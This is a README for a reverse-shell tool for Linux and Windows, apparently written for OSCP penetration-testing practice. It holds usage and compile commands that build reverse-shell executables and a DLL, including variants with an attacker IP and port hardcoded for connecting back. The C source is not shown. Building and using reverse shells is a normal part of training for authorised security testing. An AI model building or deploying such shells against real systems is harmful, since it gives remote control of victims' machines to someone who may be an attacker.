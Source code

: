 # Simple Reverse Shell

Simple reverse shell for linux and windows for OSCP preparation


Usage

```
rev.exe <ip> <port>
```

---
### For Linux

Compilation with arguments
```
gcc -static -o rev simpleRevShell.c
gcc -static -m32 -o rev32 simpleRevShell.c
```

Hardcoded IP and PORT
```
gcc -static -o revIp simpleRevShellIp.c -DLHOST='"10.10.10.1"' -DLPORT=9001
gcc -static -m32 -o revIp32 simpleRevShellIp.c -DLHOST='"10.10.10.1"' -DLPORT=9001
```

---
### For Windows

Compilation with arguments
```
x86_64-w64-mingw32-g++ -static -o rev simpleRevShellWin.c -lws2_32
i686-w64-mingw32-g++ -static -o rev32 simpleRevShellWin.c -lws2_32
```

Hardcoded IP and PORT
```
x86_64-w64-mingw32-g++ -static -o revIp simpleRevShellWinIP.c -lws2_32 -DLHOST='"10.10.10.1"' -DLPORT=9001
i686-w64-mingw32-g++ -static -o revIp32 simpleRevShellWinIP.c -lws2_32 -DLHOST='"10.10.10.1"' -DLPORT=9001
```

Hardcoded Ip and PORT for DLL
```
x86_64-w64-mingw32-gcc -static simpleRevShellWinDll.cpp --shared -o rev.dll -lws2_32 -DLHOST='"10.10.10.1"' -DLPORT=9001
i686-w64-mingw32-gcc -static simpleRevShellWinDll.cpp --shared -o rev32.dll -lws2_32 -DLHOST='"10.10.10.1"' -DLPORT=9001
```